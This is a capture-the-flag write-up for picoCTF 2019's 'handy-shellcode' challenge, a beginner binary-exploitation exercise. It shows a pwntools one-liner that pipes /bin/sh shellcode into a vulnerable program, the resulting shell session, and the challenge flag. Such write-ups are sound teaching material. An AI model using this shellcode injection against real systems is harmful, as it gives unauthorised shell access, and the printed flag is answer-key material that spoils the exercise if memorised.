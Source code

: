 # handy-shellcode
**Points:** 50

## Category
Binary Exploitation

## Task
This [program](https://2019shell1.picoctf.com/static/884e03d84d1888395564a0f871bb2c69/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405 on the shell server. [Source](https://2019shell1.picoctf.com/static/884e03d84d1888395564a0f871bb2c69/vuln.c).

# Solution
Upon looking at the source code, it could be seen it the code is executing anything we enter as the input. We can simply get a proper [shellcode](http://shell-storm.org/shellcode/) and insert it as the input. Or even better, let python do all the work!
```console
r00t@linux:~$ (python -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
ls
flag.txt  vuln	vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_ce07e7f1}
```
We make use of the **pwntools** library of python to generate a shellcode to execute a terminal for us and _cat_ command is used to keep the STDIN open. Otherwise it would immediately close.

# Flag
> picoCTF{h4ndY_d4ndY_sh311c0d3_ce07e7f1}
